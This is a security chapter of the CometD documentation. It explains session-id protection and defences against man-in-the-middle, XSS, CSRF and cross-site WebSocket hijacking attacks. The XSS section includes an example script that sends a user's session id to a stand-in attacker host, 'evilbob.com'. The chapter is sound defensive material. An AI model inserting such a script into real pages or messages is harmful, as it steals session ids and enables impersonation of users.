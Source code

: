 
[[_security]]
== Security

This session discusses the security features of the Bayeux Protocol and the relationship with common attacks and how you can configure CometD to tighten your application.

=== Security of the CometD session id

The Bayeux Protocol identifies a particular session (formerly known as "client") via a session id token, carried in Bayeux messages by the `clientId` field.
The `clientId` field value (i.e. the session id) is generated by the server when the client sends the handshake request message, and sent back to the client in the handshake response message (see xref:_bayeux_meta_handshake[the Bayeux Protocol handshake]).
The client then sends the `clientId` field in every subsequent message to the server, until disconnection.

The session id is generated using a strong random number generator, and as such it is not guessable by an evil third party.
An evil user that knows its own session id cannot guess the session id of another user by just looking at its own session id.

While the non-guessability of the session id is a good starting point, it is typically not enough, so read on.

=== Security against man-in-the-middle attacks

An evil user may be in the position to observe Bayeux Protocol traffic, as it is the case for a man-in-the-middle.

The typical solution in this case is to encrypt the traffic between the client and the server using TLS.
In this way, all the traffic between the client and the server is encrypted end-to-end and a man-in-the-middle cannot look or otherwise retrieve someone else's session id.

[[_security_xss]]
=== Security against Cross-Site Scripting (XSS) attacks

A https://owasp.org/www-community/attacks/xss[cross-site scripting attack] is a particularly important vulnerability of web applications.

A typical example of XSS is the following:

Evil user Bob connects to a chat service that uses CometD.
There, he finds Alice, another user.
Bob sends an evil chat message text to Alice where the text is the following:

[source,html]
----
<script type="text/javascript">
var xhr = new XMLHttpRequest();
xhr.open("GET", "https://evilbob.com?stolen=" + $.cometd.getClientId());
xhr.send();
</script>
----

As you can see, the script accesses the CometD's session id (via `$.cometd.getClientId()`).

[NOTE]
====
Removing the method `getClientId()` would not solve the issue, because the evil script could access the session id in other ways.
For example, by registering an extension, or by otherwise watching Bayeux messages that come and go for the normal functioning of the application, or by quickly disconnecting and reconnecting the session, etc.
====

Bob sends that evil message, which reaches the CometD server and gets routed to Alice.
When it arrives on Alice's browser, that script may be run by the browser if the application is XSS vulnerable.

If the script runs, Bob would be able to steal Alice's session id, send it to his server `evilbob.com`, where Bob would be able to access it.

[IMPORTANT]
====
If your web application is XSS vulnerable, an attacker can do a lot more damage than just stealing a CometD session id, so it is of paramount importance that your web application sanitizes data received from unknown sources such as other users chat messages.
====

If Bob has stolen Alice's session id, he could craft a Bayeux message with Alice's session id and send it from his computer, and thereby could impersonate Alice.

CometD protects from impersonations due to stolen session ids in different ways, depending on the type of transport used to carry Bayeux messages.

For transports based on HTTP (`long-polling` and `callback-polling`), CometD sends a HTTP cookie with the handshake response, marked as `HttpOnly`, called `BAYEUX_BROWSER` (see xref:_java_server_configuration[]).
The CometD implementation, on the server, maps this cookie to a legit session id during the processing of the handshake request message.
For every subsequent message, the browser will send the `BAYEUX_BROWSER` cookie to the server and the CometD implementation will retrieve the session id from legit sessions that have been mapped to the cookie, rather than from the message (where it could have been altered).

Bob could craft a message with Alice's session id, but the `BAYEUX_BROWSER` cookie that he will send along with the tampered message will be his, not Alice's.
The CometD implementation will detect this attack and ask Bob to re-handshake.

If the crafted message does not have any cookie, CometD will ask Bob to re-handshake, unless the `trustClientSession` parameter has been set to `true`, see xref:_java_server_configuration[].

For transports based on WebSocket (`websocket`), CometD trusts the particular connection that has been established during the handshake.
The session id is associated to that connection and when a WebSocket message arrives on that connection, and CometD retrieves the session id from the association with the connection, rather than from the message (where it could have been altered).

When the connection is closed, for example for a network failure, CometD attempts to open another connection.
If the reconnection happens within a short period of time (typically less than the `maxInterval` configured on the server), then CometD will try to send messages on the new connection without re-handshaking, but since it's a new connection that did not process a handshake message, it will not have a session id associated.

At this point, CometD could ask the client to re-handshake (which involves some round-trips to be completed, possibly slowing further down the communication in case of faulty networks), or it could trust the session id from the message (which would yield faster reconnections, albeit less secure if the session id is stolen).
This is controlled by the `requireHandshakePerConnection` parameter, see xref:_java_server_configuration[].

[[_security_csrf]]
=== Security against Cross Site Request Forgery (CSRF) attacks

A https://owasp.org/www-community/attacks/csrf[cross site request forgery attack] is a particularly important vulnerability of web applications.

A typical example of CSRF is the following:

Evil user Bob connects to the chat service at `cometd-chat.com` using CometD.
There, he finds Alice, another user.
Bob sends an evil chat message text to Alice where the text is the following:

----
Look at this: https://evilbob.com/cometd
----

Alice clicks on the link, her browser opens a new tab to `+https://evilbob.com/cometd+` and an entertaining HTML page containing a script is downloaded to Alice's browser.

While Alice is looking at Bob's entertaining page, her browser runs an evil script, which may perform actions on behalf of Alice on the chat service that uses CometD.

For example, Bob could use xref:_security_xss[XSS] to steal Alice's session id and then craft and send evil messages to the chat service _from Alice's browser_.
Alice's browser will send the existing Alice's `BAYEUX_BROWSER` cookie along with the evil messages, and to the server the evil messages will be indistinguishable from legit messages sent by Alice, because they will carry her `BAYEUX_BROWSER` cookie and her stolen session id.

CometD does not automatically protects against CSRF attacks, but these are easily counterfeit by configuring the cross-origin filter as explained in xref:_java_server_configuration_advanced[this section].

Alice's legit messages are sent by a script downloaded from the chat service, and therefore will have the following HTTP header:

----
Origin: https://cometd-chat.com
----

Conversely, Bob's evil script is downloaded from `+https://evilbob.com+` and his evil messages will have the following HTTP header:

----
Origin: https://evilbob.com
----

The application at `cometd-chat.com` can install the cross-origin filter and configure it to allow requests only from the `cometd-chat.com` origin, effectively blocking Bob's CSRF attack.
This works because browsers are required to perform a _preflight_ request before sending a HTTP request to a different target origin.
The preflight request will be intercepted by the cross-origin filter and denied.
The unsuccessful preflight response instructs the browser that the script cannot perform any request to that target origin, and the browser will block the script from making requests to the target domain.

[[_security_cswsh]]
=== Security against Cross-Site WebSocket Hijacking (CSWSH) attacks

Cross-Site WebSocket Hijacking (CSWSH) is a variant of xref:_security_csrf[Cross-Site Request Forgery] but for the WebSocket protocol.

Similarly to CSRF, Bob tricks Alice to look at a page at `+https://evilbob.com/cometd+` that downloads an evil script that opens a WebSocket connection to `+https://cometd-chat.com+` _from Alice's browser_.

A WebSocket connection sends an initial HTTP request to the server.
This initial HTTP request, triggered by Bob's evil script running in Alice's browser, looks like this:

----
GET /cometd HTTP/1.1
Upgrade: websocket
...
Cookie: BAYEUX_BROWSER=...; JSESSIONID=...
...
Origin: https://evilbob.com
----

The initial HTTP request will have Alice's cookies (and possibly Alice's authentication headers), including the CometD cookie and the HTTP session cookie.
However, it will have `+Origin: https://evilbob.com+` and not the expected `+Origin: https://cometd-chat.com+`.

As with the CSRF attack, the application at `cometd-chat.com` can install the cross-origin filter and configure it to allow requests only from the `cometd-chat.com` origin, effectively blocking Bob's CSWSH attack.

In this case, the cross-origin filter must be installed _before_ the WebSocket upgrade mechanism takes place, or the WebSocket upgrade mechanism must have a way to test against a configured list of allowed origins and reject the WebSocket connection attempt if the origin is not allowed.
